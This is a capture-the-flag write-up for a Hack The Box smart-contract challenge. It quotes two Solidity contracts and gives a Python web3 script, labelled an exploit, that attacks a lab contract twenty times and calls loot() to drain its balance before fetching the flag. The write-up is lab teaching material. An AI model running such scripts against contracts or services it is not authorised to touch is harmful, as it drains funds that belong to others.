 # Survival of the Fittest

## Description
```
Alex had always dreamed of becoming a warrior, but she wasn't particularly skilled. 
When the opportunity arose to join a group of seasoned warriors on a quest to a mysterious island filled with real-life monsters, she hesitated. 
But the thought of facing down fearsome beasts and emerging victorious was too tempting to resist, and she reluctantly agreed to join the group. 
As they made their way through the dense, overgrown forests of the island, Alex kept her senses sharp, always alert for the slightest sign of danger. 
But as she crept through the underbrush, sword drawn and ready, she was startled by a sudden movement ahead of her. 
She froze, heart pounding in her chest as she realized that she was face to face with her first monster.
```

## Provided Files
```
- Setup.sol
- Creature.sol
```

## Writeup

I started off by taking a look at the provided `solidity` files. <br/>
`Setup.sol`: <br/>
```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Creature} from "./Creature.sol";

contract Setup {
    Creature public immutable TARGET;

    constructor() payable {
        require(msg.value == 1 ether);
        TARGET = new Creature{value: 10}();
    }
    
    function isSolved() public view returns (bool) {
        return address(TARGET).balance == 0;
    }
}
```
The only interesting thing above is the function `isSolved()`. <br/>
It basically checks if the `balance` of `Creature-contract` is zero or not. <br/>

`Creature.sol`: <br/>
```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Creature {
    
    uint256 public lifePoints;
    address public aggro;

    constructor() payable {
        lifePoints = 20;
    }

    function strongAttack(uint256 _damage) external{
        _dealDamage(_damage);
    }
    
    function punch() external {
        _dealDamage(1);
    }

    function loot() external {
        require(lifePoints == 0, "Creature is still alive!");
        payable(msg.sender).transfer(address(this).balance);
    }

    function _dealDamage(uint256 _damage) internal {
        aggro = msg.sender;
        lifePoints -= _damage;
    }
}
```

The code above has the main game logic inside. <br/>
To set the `balance` of the `Creature-contract` to zero we have to attack the `Creature` 20 times. <br/>
My thought process was that I need to call the `strongAttack()` function 20 times to reduce its `lifePoitns` to `0`. <br/>
Also after doing this I needed to call the `loot()` function to finish the challenge. <br/>
To do this I made a simple python-script using `web3` library. <br/>
```py
from web3 import Web3
import requests

base_URL = 'http://PROVIDED_IP/'

# Get wallet values
res = requests.get(f'{base_URL}/connection_info')
data = res.json()


web3 = Web3(Web3.HTTPProvider(f'{base_URL}rpc'))

# Provided values
private_key = data['PrivateKey']
account_address = data['Address']
setup_contract_address = data['setupAddress']
target_contract_address = data['TargetAddress']

# Basic setup
setup_contract_abi = [
    {
        "constant": True,
        "inputs": [],
        "name": "TARGET",
        "outputs": [{"name": "", "type": "address"}],
        "payable": False,
        "stateMutability": "view",
        "type": "function"
    },
    {
        "constant": True,
        "inputs": [],
        "name": "isSolved",
        "outputs": [{"name": "", "type": "bool"}],
        "payable": False,
        "stateMutability": "view",
        "type": "function"
    }
]

creature_contract_abi = [
    {
        "constant": False,
        "inputs": [{"name": "_damage", "type": "uint256"}],
        "name": "strongAttack",
        "outputs": [],
        "payable": False,
        "stateMutability": "nonpayable",
        "type": "function"
    },
    {
        "constant": False,
        "inputs": [],
        "name": "punch",
        "outputs": [],
        "payable": False,
        "stateMutability": "nonpayable",
        "type": "function"
    },
    {
        "constant": False,
        "inputs": [],
        "name": "loot",
        "outputs": [],
        "payable": False,
        "stateMutability": "nonpayable",
        "type": "function"
    }
]

# Load contracts
setup_contract = web3.eth.contract(address=setup_contract_address, abi=setup_contract_abi)
target_contract = web3.eth.contract(address=target_contract_address, abi=creature_contract_abi)

def exploit():
    # Call strongAttack func() repeatedly
    for _ in range(20):
        tx_hash = target_contract.functions.strongAttack(1).transact({'from': account_address, 'gas': 100000})
        web3.eth.wait_for_transaction_receipt(tx_hash)

    # Call loot func() to claim contract-balance
    tx_hash = target_contract.functions.loot().transact({'from': account_address, 'gas': 100000})

exploit()


# Grab flag after exploiting
res = requests.get(f'{base_URL}/flag')

print(res.text)
```

Executing the script I was able to exploit the service. <br/>
```sh
$ python3 ./req.py
HTB{REDACTED}
```

Obtaining the flag concludes this writeup.